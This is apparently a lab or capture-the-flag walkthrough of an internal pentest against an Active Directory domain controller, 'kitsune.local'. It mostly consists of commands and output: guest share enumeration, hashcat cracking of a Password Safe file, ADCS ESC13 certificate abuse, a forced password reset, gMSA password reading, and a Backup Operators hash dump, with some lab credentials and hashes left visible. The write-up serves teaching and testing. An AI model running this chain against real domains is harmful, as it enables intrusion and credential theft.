




! You have been hired to perform an internal pentest against the client's Domain Controller. Your task is to identify all vulnerabilities and (if possible) fully compromise the Domain. The client has provided you with VPN access to their environment, but no other information.

## [01] Port Scan and Service Discovery
```term
$ sudo nmap -p- -sV -sV --max-retries=0 --vv -oN scans/nmap_all_tcp.txt 10.0.19.39

PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: kitsune.local, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server syn-ack ttl 126
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49667/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49699/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49727/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49739/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49766/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
```

## [02] Finding Users and Passwords via Guest Authentication

We have a typical Active Directory port scan and nothing else, so we will jump right into enumeration.
```term
$ nxc smb kitsune.local -u 'Guest' -p '' --shares
SMB         10.1.80.34      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.80.34      445    DC01             [+] kitsune.local\Guest:
SMB         10.1.80.34      445    DC01             [*] Enumerated shares
SMB         10.1.80.34      445    DC01             Share           Permissions            Remark
SMB         10.1.80.34      445    DC01             -----           -----------            ------
SMB         10.1.80.34      445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.80.34      445    DC01             C$                                     Default share
!!SMB         10.1.80.34      445    DC01             Files           READ                   Global file share
!!SMB         10.1.80.34      445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.80.34      445    DC01             NETLOGON                               Logon server share 
SMB         10.1.80.34      445    DC01             SYSVOL                                 Logon server share 
```

We can use the `spider_plus` module from `nxc` to see all the files we have access to. We can then read the json file it gives us to get an idea of what is in the shares.
```bash
─────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
     │ File: 10.0.19.39.json
─────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1 │ {
   2 │     "Files": {
   3 │         "10-11-Calendar_October.pdf": {
   4 │             "atime_epoch": "2026-10-12 21:23:43",
   5 │             "ctime_epoch": "2026-10-12 21:23:43",
   6 │             "mtime_epoch": "2026-10-12 23:08:21",
   7 │             "size": "3.12 KB"
   8 │         },
   9 │         "10-11-Financial_Report.pdf": {
  10 │             "atime_epoch": "2026-10-12 21:23:49",
  11 │             "ctime_epoch": "2026-10-12 21:23:48",
  12 │             "mtime_epoch": "2026-10-12 23:10:23",
  13 │             "size": "3.98 KB"
  14 │         },
  15 │         "10-11-Timesheet.pdf": {
  16 │             "atime_epoch": "2026-10-12 21:21:23",
  17 │             "ctime_epoch": "2026-10-12 21:21:23",
  18 │             "mtime_epoch": "2026-10-12 23:10:27",
  19 │             "size": "3.76 KB"
  20 │         },
  21 │         "logins.psafe3": {
  22 │             "atime_epoch": "2026-10-12 20:59:03",
  23 │             "ctime_epoch": "2026-10-12 20:59:03",
  24 │             "mtime_epoch": "2026-10-12 22:10:05",
  25 │             "size": "840 B"
  26 │         }
  27 │     }
  28 │ }
─────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Looking at some of the files we can gather users, and more importantly, we find a `logins.psafe3` file. Doing some research we can find that `psafe3` is a file format for the `Password Safe` application.
We can install the Password Safe program from github [here](https://github.com/pwsafe/pwsafe).

It asks us for a master password when trying to attempt to open it. Looking through the hashcat documentation we see that mode 5200 is able to crack this exact file type. We can attempt to crack it as such:
```term
$ hashcat -a 0 -m 5200 logins.psafe3 /usr/share/wordlists/rockyou.txt

logins.psafe3:xxxxxxxx
```

We now have the password. Once we enter it, we are granted access to the password vault. We can click on any one of the records and inspect it with the `Edit` option on the top panel. Looking at the `ranch` user, we are able to uncover the password.


We can test these credentials to make sure they are valid.

```term 
$ nxc smb kitsune.local -u ranch -p 'xxxxxxxx' --shares

SMB         10.1.80.34      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
!!SMB         10.1.80.34      445    DC01             [+] kitsune.local\ranch:xxxxxxxx
SMB         10.1.80.34      445    DC01             [*] Enumerated shares
SMB         10.1.80.34      445    DC01             Share           Permissions            Remark
SMB         10.1.80.34      445    DC01             -----           -----------            ------
SMB         10.1.80.34      445    DC01             ADMIN$                                 Remote Admin
SMB         10.1.80.34      445    DC01             C$                                     Default share
SMB         10.1.80.34      445    DC01             Files           READ,WRITE             Global file share
SMB         10.1.80.34      445    DC01             IPC$            READ                   Remote IPC
SMB         10.1.80.34      445    DC01             NETLOGON        READ                   Logon server share 
SMB         10.1.80.34      445    DC01             SYSVOL          READ                   Logon server share 
```

## [03] Exploiting ADCS ESC13 to Pivot to schlop

Now that we have a valid user, my next step was to get bloodhound data and check for any vulnerable templates.

```term
$ bloodhound-python -c all -d kitsune.local -u ranch -p 'xxxxxxxx' -dc kitsune.local -ns 10.0.19.39

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: kitsune.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: kitsune.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: kitsune.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
WARNING: LDAP Authentication is refused because LDAP signing is enabled. Trying to connect over LDAPS instead...
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 10 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.kitsune.local
INFO: Done in 00M 10S
```
> Gathering bloodound data.

```term
$ certipy-ad find -u 'ranch@kitsune.local' -p 'R@nch2026!' -dc-ip 10.0.19.39 -stdout
  
!!Template Name                       : Kitsune-User
!!    Certificate Authorities             : kitsune-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Extended Key Usage                  : Client Authentication
!!    Minimum RSA Key Length              : 4096
!!    Issuance Policies                   : 1.3.6.1.4.1.311.21.8.10863307.14988779.16010669.3757508.10421200.134.6077557.15214621
!!    Linked Groups                       : CN=HelpDesk,CN=Users,DC=kitsune,DC=local
    Permissions
      Enrollment Permissions
        Enrollment Rights               : KITSUNE.LOCAL\Domain Admins
                                          KITSUNE.LOCAL\Domain Users
                                          KITSUNE.LOCAL\Enterprise Admins
!!    [+] User Enrollable Principals      : KITSUNE.LOCAL\Domain Users
!!    [!] Vulnerabilities
!!      ESC13                             : Template allows client authentication and issuance policy is linked to group 'CN=HelpDesk,CN=Users,DC=kitsune,DC=local'. 
```
> Discovering a vulnerable template, some data cut for readability.

We found a vulnerable template that in theory will allow us to take on permissions of the `Helpdesk` group. Looking at Helpdesk in bloodhound we see that Helpdesk as `GenericAll` over the `schlop` user. Putting all this together, if we are able to get a ticket that has the ability to authorize as Helpdesk, we can reset the schlop users password.


First, we need to grab a certificate:
```term
$ sudo certipy-ad req -u 'ranch@kitsune.local' -p 'xxxxxxxx' -target 'DC01.kitsune.local'  -template 'Kitsune-User' -ca 'kitsune-DC01-CA' -key-size 4096
Certipy v5.1.0 - by Oliver Lyak (ly4k)
                                                                                                                                                                                                                                                                                          
[*] Requesting certificate via RPC
[*] Request ID is 23
[*] Successfully requested certificate
[*] Got certificate with UPN 'ranch@kitsune.local'
[*] Certificate object SID is 'S-1-5-21-3773590124-4237107295-2360938966-1103'
!![*] Saving certificate and private key to 'ranch.pfx'
!![*] Wrote certificate and private key to 'ranch.pfx'
```
> Requesting certificate.

Now get the ticket:
```term
$ sudo certipy-ad auth -pfx ranch.pfx -dc-ip 10.0.19.39

Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'ranch@kitsune.local'
[*]     Security Extension SID: 'S-1-5-21-3773590124-4237107295-2360938966-1103'
[*] Using principal: 'ranch@kitsune.local'
[*] Trying to get TGT...
[*] Got TGT
!![*] Saving credential cache to 'ranch.ccache'
!![*] Wrote credential cache to 'ranch.ccache'
[*] Trying to retrieve NT hash for 'ranch'
[*] Got hash for 'ranch@kitsune.local': aad3b435b51404eeaad3b435b51404ee:47d29308446189faa2acec65586963c1
```
> Requesting a ticket.

Now we can attempt to reset the password for schlop and verify the password was reset:
```term
$ bloodyad --host DC01.kitsune.local -d kitsune.local -k ccache="ranch.ccache" set password schlop 'NotPassword123!'

!![+] Password changed successfully!`
```

```term
$ nxc smb kitsune.local -u schlop -p 'NotPassword123!'  

SMB         10.0.19.39      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
!!SMB         10.0.19.39      445    DC01             [+] kitsune.local\schlop:NotPassword123! 
```

## [04] Remote Access as schlop, Uncovering More Credentials

We now have remote access to the machine. Looking around the filesystem we stumble across a `.cred` file.
```powershell
*Evil-WinRM* PS C:\Users\schlop\Documents> type networkAuth.cred
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">pebble</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000015eb4da53276741952d904a69c440310000000002000000000010660000000100002000000041903d6d7ae4fa86dd56bfe8741f4a15c9e2226d386f88f6aec7f15a5779f3e6000000000e8000000002000020000000b3604d46abd67313eb9a551d3b289c48c922bada4680807c9b7556e0633f19b920000000ae67f87d8559a61c20268cde4649e3538e0c15a7e7153c33e2fc6f7b13c713a44000000064462a2ea8ee6b2bccf09125fa86779431d4ccea0c9a30f2a325239c4199e26982ae745497a01016f90238173a2eb540b47410a39f97e8cb89c8d3ca14bcc8d7</SS>
    </Props>
  </Obj>
</Objs>
```
I did some research and found this was an encrypted credential, but we are able to access it since we are the owner.

```powershell
*Evil-WinRM* PS C:\Users\schlop\Documents> $cred = Import-Clixml .\networkAuth.cred
*Evil-WinRM* PS C:\Users\schlop\Documents> $cred.UserName
pebble
*Evil-WinRM* PS C:\Users\schlop\Documents> $cred.GetNetworkCredential().Password
xxxxxxxx
```

We now have another users credentials.

## [05] Dumping the gMSA and Administrator Credentials

Circling back to bloodhound, we see that pebble is a member of `IT` which has `ReadGMSAPassword` on the `SVC_GMSA$` account. 


We can use nxc again to dump the gmsa credentials.
```term
$ nxc ldap kitsune.local -u 'pebble' -p 'xxxxxxxx' --gmsa
LDAP        10.0.19.39      389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:kitsune.local) (signing:Enforced) (channel binding:Never) 
LDAP        10.0.19.39      389    DC01             [+] kitsune.local\pebble:xxxxxxxx 
LDAP        10.0.19.39      389    DC01             [*] Getting GMSA Passwords
!!LDAP        10.0.19.39      389    DC01             Account: svc_gmsa$            NTLM: xxxxxxxx     PrincipalsAllowedToReadPassword: IT
LDAP        10.0.19.39      389    DC01             Account: svc_gmsa$            aes128-cts-hmac-sha1-96: 5ec42299b69abce69a96b1795f7d10c0
LDAP        10.0.19.39      389    DC01             Account: svc_gmsa$            aes256-cts-hmac-sha1-96: 4da9193a94b52900dd5019a3757329a7ef9c51418f88ff2cf15db7433298ab7d
```

We now have access to the svc_gmsa$ hash. Back on bloodhound, svc_gmsa$ is part of the `Backup Operators`, meaning game over. The Backup Operators group can backup and restore files on the domain controller.


Using the `backup_operator` module on nxc, we can dump the user hashes.
```term
$ nxc smb 10.0.19.39 -u 'svc_gmsa$' -H 'xxxxxxxx' -M backup_operator
---snip---
Administrator:500:aad3b435b51404eeaad3b435b51404ee:xxxxxxxx:::
---snip---
```
